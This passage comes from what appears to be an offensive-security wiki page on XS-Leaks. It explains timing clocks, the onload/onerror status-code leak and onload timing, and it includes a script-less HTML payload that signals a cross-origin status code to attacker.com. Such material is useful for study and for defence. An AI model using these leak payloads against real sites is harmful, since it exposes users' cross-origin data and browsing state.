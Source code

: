 **Clocks**: The [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) API allows developers to get high-resolution timing measurements.\
There are a considerable number of APIs attackers can abuse to create implicit clocks: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast_Channel_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), CSS animations, and others.\
For more info: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Event Handler Techniques

### Onload/Onerror

- **Inclusion Methods**: Frames, HTML Elements
- **Detectable Difference**: Status Code
- **More info**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
- **Summary**: if trying to load a resource onerror/onload events are triggered with the resource is loaded successfully/unsuccessfully it's possible to figure out the status code.
- **Code example**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](<https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)>)

{{#ref}}
xs-search/cookie-bomb-+-onerror-xs-leak.md
{{#endref}}

The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

- **Inclusion Methods**: HTML Elements
- **Detectable Difference**: Timing (generally due to Page Content, Status Code)
- **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
- **Summary:** The [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** can be used to measure how much time it takes to perform a request. However, other clocks could be used, such as [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) which can identify tasks running for more than 50ms.
- **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) another example in:
